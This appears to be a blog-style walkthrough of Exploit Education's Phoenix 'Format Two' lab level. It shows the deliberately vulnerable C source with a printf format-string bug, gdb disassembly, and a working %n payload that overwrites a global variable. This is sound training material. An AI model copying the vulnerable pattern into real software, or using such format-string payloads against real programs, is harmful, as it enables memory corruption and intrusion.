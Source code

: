 ```yaml
---
title: "Binary Exploitation | Exploit Education | Phoenix Format Two"
permalink: "binary-exploitation/exploit-education-phoenix/:title"
layout: post
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int changeme;

void bounce(char *str) {
  printf(str);
}

int main(int argc, char **argv) {
  char buf[256];

  printf("%s\n", BANNER);

  if (argc > 1) {
    memset(buf, 0, sizeof(buf));
    strncpy(buf, argv[1], sizeof(buf));
    bounce(buf);
  }

  if (changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  } else {
    puts("Better luck next time!\n");
  }

  exit(0);
}
```

The goal of this level is to use the format string vulnerability to write to a memory address **changeme**.

```
$ gdb -q /opt/phoenix/amd64/format-two
Reading symbols from /opt/phoenix/amd64/format-two...(no debugging symbols found)...done.

gef➤  disassemble main 
Dump of assembler code for function main:
.....
   0x0000000000400700 <+115>:	call   0x40066d <bounce>
   0x0000000000400705 <+120>:	mov    eax,DWORD PTR [rip+0x2003e5]        # 0x600af0 <changeme>
   0x000000000040070b <+126>:	test   eax,eax
.....
```

Here we can see the address we want to write to is **0x600af0** which is not exploitable because it has bad characters that will terminate the input and ignore everything after it :(

Bad characters:

- \x00	(Null)
- \x09	(Tab)
- \x0a	(New line)
- \x0d	(Carriage return)
- \x20	(Space)

So we switch gears to the 32bit binary.

```
$ gdb -q /opt/phoenix/i486/format-two 
Reading symbols from /opt/phoenix/i486/format-two...(no debugging symbols found)...done.

gef➤  disassemble main 
Dump of assembler code for function main:
.....
   0x0804859b <+111>:	call   0x8048515 <bounce>
   0x080485a0 <+116>:	add    esp,0x10
   0x080485a3 <+119>:	mov    eax,ds:0x8049868
   0x080485a8 <+124>:	test   eax,eax
....
```

Now the address of **changeme** is **0x8049868**, good.

First we should know where our input is stored in the stack.

```
$ /opt/phoenix/i486/format-two "AAAA%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x"
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAAffffd89b 100 0 f7f84b67 ffffd6f0 ffffd6d8 80485a0 ffffd5d0 ffffd89b 100 3e8 41414141 25207825 78252078 20782520 25207825Better luck next time!
```

We can see our input **41414141** which is **AAAA** at offset 12.

To write to an address we user the **%n** which writes the number of characters so far to a memory address.

So we can replace **AAAA** with the address of **changeme** and replace the last **%x** with **%n** to write to that address.

```
$ /opt/phoenix/i486/format-two $'\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %x \n'
Welcome to phoenix/format-two, brought to you by https://exploit.education
hffffd8a5 100 0 f7f84b67 ffffd700 ffffd6e8 80485a0 ffffd5e0 ffffd8a5 100 3e8 8049868 
Better luck next time!
```

Notice we write the address in little endian.

We could also use the direct parameter access format using **%12$x** instead of all these **%x** but it doesn't work all the time (and apparently doesn't work here).

# Solution:

```
$ /opt/phoenix/i486/format-two $'\x68\x98\x04\x08%x %x %x %x %x %x %x %x %x %x %x %n \n'
Welcome to phoenix/format-two, brought to you by https://exploit.education
hffffd8a5 100 0 f7f84b67 ffffd700 ffffd6e8 80485a0 ffffd5e0 ffffd8a5 100 3e8  
Well done, the 'changeme' variable has been changed correctly!
```